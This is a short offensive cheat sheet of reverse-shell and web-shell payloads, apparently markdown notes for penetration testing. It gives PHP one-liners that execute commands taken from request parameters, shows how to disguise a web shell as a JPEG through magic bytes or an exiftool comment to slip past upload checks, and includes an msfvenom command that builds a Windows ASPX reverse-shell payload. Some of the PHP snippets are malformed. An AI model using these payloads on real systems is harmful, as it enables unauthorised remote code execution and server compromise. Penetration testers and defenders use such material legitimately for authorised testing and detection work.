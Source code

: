 # Reverse Shells

#### PHP Reverse Shells

##### Basic PHP reverse shells

```php
<php echo exec('whoami');?>
<php system("whoami"); ?>
<php system($_REQUEST['wr3nch']); #	works with the post verb
<php system($_GET['wr3nch']); >
```


##### PHP reverse shell in images

```bash
# Using magic bytes
echo 'FFD8FFDB' | xxd -r -p > webshell.php.jpg
echo '<?=`$_GET[wr3nch]`?>' >> webshell.php.jpg
# Using exiftool
exiftool -comment '<?php system($_GET['wr3nch']);?>' \<file_name\>.\<extension\>
```

#### MSFVENOM

##### aspx reverse shell
```bash
# generate an aspx for windows machine
msfvenom -p windows/shell_reverse_tcp LHOST=xxxxxx LPORT=xxxxx -f aspx > exploit.aspx
```